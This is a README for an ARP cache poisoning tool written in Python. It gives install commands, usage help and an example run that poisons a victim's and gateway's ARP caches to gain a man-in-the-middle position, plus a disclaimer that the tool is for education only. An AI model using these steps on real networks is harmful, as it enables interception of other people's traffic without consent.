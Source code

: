 # Installation :
```
git clone https://github.com/PrestaDZ/ARP-Cache-poisoning.git
cd ARP-Cache-poisoning
pip3 install -r requirements.txt
```

# Usage :

```

$ sudo python3 acp.py --help

 ________      ________      ________
|\   __  \    |\   ____\    |\   __  \
\ \  \|\  \   \ \  \___|    \ \  \_\  \
 \ \   __  \   \ \  \        \ \   ____|
  \ \  \ \  \ __\ \  \____  __\ \  \___|
   \ \__\ \__\\__\ \_______\\__\ \__\
    \|__|\|__\|__|\|_______\|__|\|__|
    --< Arp cache poisoning python tool
    --< by Presta

usage: python3 acp.py [-h] -s SWITCH_IP -i VICTIM_IP

optional arguments:
  -h, --help            show this help message and exit
  -s SWITCH_IP, --switch-ip SWITCH_IP
                        L'adresse IP de la passerelle.
  -i VICTIM_IP, --victim-ip VICTIM_IP
                        L'adresse IP de la victime.

```

# Exemple :

```
$ sudo python3 acp.py -s 192.168.0.254 -i 192.168.0.10

 ________      ________      ________
|\   __  \    |\   ____\    |\   __  \
\ \  \|\  \   \ \  \___|    \ \  \_\  \
 \ \   __  \   \ \  \        \ \   ____|
  \ \  \ \  \ __\ \  \____  __\ \  \___|
   \ \__\ \__\\__\ \_______\\__\ \__\
    \|__|\|__\|__|\|_______\|__|\|__|
    --< Arp cache poisoning python tool
    --< by Presta

Envoi de 2 paquets ICMP à 192.168.0.10...
------------
Sent : 2 , Received : 0
Packet lost         : 1.0

[!] L'hôte ne répond pas au packets ICMP.
Envoi de 2 paquets ICMP à 192.168.0.254 ...
------------
Sent : 2 , Received : 2
Packet lost         : 0.0

[i] L'hote répond au paquets icmp

-------------------------------------------
[i] Victime    Ip / MAC  -> 192.168.0.10  : 32:1a:u9:d4:f7:23
[i] Passerelle Ip / MAC  -> 192.168.0.254 : fa:18:8b:a6:21:ce

[+] Lancement de l'attaque ...
[i] Taper controle + C pour quitter le programme.
[+] Attaque lancée avec succès

```

Ce code a pour but de vous mettre dans une position de MiTM entre la victime et la passerelle en corrompant le cache ARP. Il a été écrit pour un usage éducatif et non pour un usage illégal. Je rappel qu'il est interdit par la loi de l'utiliser sur un réseau ne vous appartenant pas.

# Informations :

- Written by : Presta_DZ
- Language : Python3

